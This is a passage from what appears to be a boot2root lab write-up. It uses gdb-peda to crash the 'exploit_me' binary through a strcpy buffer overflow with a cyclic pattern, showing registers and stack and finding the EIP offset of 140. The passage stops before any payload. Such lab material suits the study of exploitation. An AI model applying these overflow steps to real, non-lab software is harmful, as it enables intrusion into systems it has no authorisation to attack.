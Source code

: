 ```
End of assembler dump.
```

There is a strcpy, try to overflow

```
(gdb-peda)$ pattern create 200 file
Writing pattern of 200 chars to filename "file"

(gdb-peda)$ r $(cat file)
Starting program: /home/nico/42/boot2root/zaz/exploit_me $(cat file)
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x0 
ECX: 0xffffffff 
EDX: 0xffffffff 
ESI: 0xf7fa0000 --> 0x1e4d6c 
EDI: 0xf7fa0000 --> 0x1e4d6c 
EBP: 0x41514141 ('AAQA')
ESP: 0xffffd430 ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
EIP: 0x41416d41 ('AmAA')
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41416d41
[------------------------------------stack-------------------------------------]
0000| 0xffffd430 ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0004| 0xffffd434 ("AASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0008| 0xffffd438 ("ApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0012| 0xffffd43c ("TAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0016| 0xffffd440 ("AAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0020| 0xffffd444 ("ArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0024| 0xffffd448 ("VAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA")
0028| 0xffffd44c ("AAWAAuAAXAAvAAYAAwAAZAAxAAyA")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41416d41 in ?? ()
```

We have an overflow, find the offset to overwrite EIP

```
(gdb-peda)$ pattern search
Registers contain pattern buffer:
...
EIP+0 found at offset: 140
...
```
